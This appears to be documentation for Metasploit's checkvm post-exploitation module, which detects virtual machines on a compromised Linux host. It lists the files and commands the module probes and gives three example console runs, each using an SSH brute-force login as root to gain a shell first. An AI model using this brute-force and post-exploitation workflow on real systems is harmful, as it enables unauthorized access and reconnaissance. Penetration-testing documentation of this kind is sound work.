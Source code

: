 ## Locations Checked

There are many locations that are checked for having evidence of being a virtual machine.  The follow is a list of them:

1. (with root access) `/usr/sbin/dmidecode`
2. `/sbin/lsmod`
3. `/proc/scsi/scsi`
4. `cat /proc/ide/hd*/model`
5. `lspci`
6. `ls -1 /sys/bus`
7. `lscpu`
8. `dmesg`

## Verification Steps

  1. Start msfconsole
  2. Get a session via exploit of your choice
  3. Do: `use post/linux/gather/checkvm`
  4. Do: `set session <session>`
  5. Do: `run`
  6. You should get feedback if a virtual machine environment was detected

## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions -l`

## Scenarios

  Typical run against Kali with only one user (root), using ssh_login for initial shell

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username root
username => root
msf auxiliary(ssh_login) > set password "test"
password => example_password
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[-] SSH - Could not connect: The connection was refused by the remote host (127.0.0.1:22).
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'root:test' 'uid=0(root) gid=0(root) groups=0(root) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:41521 -> 127.0.0.1:22) at 2016-09-14 00:14:36 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/checkvm 
msf post(checkvm) > set session 1
session => 1
msf post(checkvm) > run

[*] Gathering System info ....
[+] This appears to be a 'Xen' virtual machine
[*] Post module execution completed
  ```
A non-virtual machine will have the following output
```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username root
username => root
msf auxiliary(ssh_login) > set password "test"
password => example_password
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[-] SSH - Could not connect: The connection was refused by the remote host (127.0.0.1:22).
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'root:test' 'uid=0(root) gid=0(root) groups=0(root) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:41521 -> 127.0.0.1:22) at 2016-09-14 00:15:36 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/checkvm 
msf post(checkvm) > set session 1
session => 1
msf post(checkvm) > run

[*] Gathering System info ....
[*] This does not appear to be a virtual machine
[*] Post module execution completed
  ```
And a VMwave virtual machine
```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set username root
username => root
msf auxiliary(ssh_login) > set password "test"
password => example_password
msf auxiliary(ssh_login) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[-] SSH - Could not connect: The connection was refused by the remote host (127.0.0.1:22).
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'root:test' 'uid=0(root) gid=0(root) groups=0(root) Linux k 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (127.0.0.1:41521 -> 127.0.0.1:22) at 2016-09-14 00:18:36 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > use post/linux/gather/checkvm 
msf post(checkvm) > set session 1
session => 1
msf post(checkvm) > run

[*] Gathering System info ....
[+] This appears to be a 'VMware' virtual machine
[*] Post module execution completed
```
